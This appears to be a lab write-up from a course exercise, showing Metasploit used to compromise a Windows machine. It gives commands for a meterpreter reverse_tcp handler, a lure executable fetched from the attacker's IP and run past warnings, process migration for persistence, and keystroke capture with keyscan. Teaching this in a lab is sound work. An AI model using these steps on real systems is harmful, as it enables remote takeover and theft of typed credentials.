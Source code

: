 <img width="602" alt="image" src="https://github.com/user-attachments/assets/68b5c816-db23-4fe9-852a-ff1b57819edd">

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

<img width="827" alt="image" src="https://github.com/user-attachments/assets/b256e88b-fdb7-4604-a3dc-f409383e0d2e">

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

<img width="589" alt="image" src="https://github.com/user-attachments/assets/91c9967a-99bf-4db0-9d31-ad8ee165c7f6">

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.4/fun.exe The file "fun.exe" downloads.

<img width="368" alt="image" src="https://github.com/user-attachments/assets/1a211cb7-e49c-4dfb-a4eb-9914aa5fe3dc">


Bypass any warning boxes, double-click the file, and allow it to run.

<img width="370" alt="image" src="https://github.com/user-attachments/assets/ae00f0c5-39d5-4717-a921-4f9b5a386475">


On kali give the command exploit

<img width="577" alt="image" src="https://github.com/user-attachments/assets/4f20f78f-270f-47f3-8176-4a26ed593b9e">

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

<img width="857" alt="image" src="https://github.com/user-attachments/assets/37f8c6c2-888b-4d46-a447-89c291975d3c">

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

<img width="781" alt="image" src="https://github.com/user-attachments/assets/0aa5dfee-8bf2-4683-999b-c0fb8cc13b14">
<img width="619" alt="image" src="https://github.com/user-attachments/assets/8c6078c0-ec91-46c7-8a9e-de53239c0e24">


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

keyscan_dump Shows the keystrokes captured so far 

![image](https://github.com/user-attachments/assets/ae4261ce-8ebe-4f5e-ae04-89afacdfeeb4)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
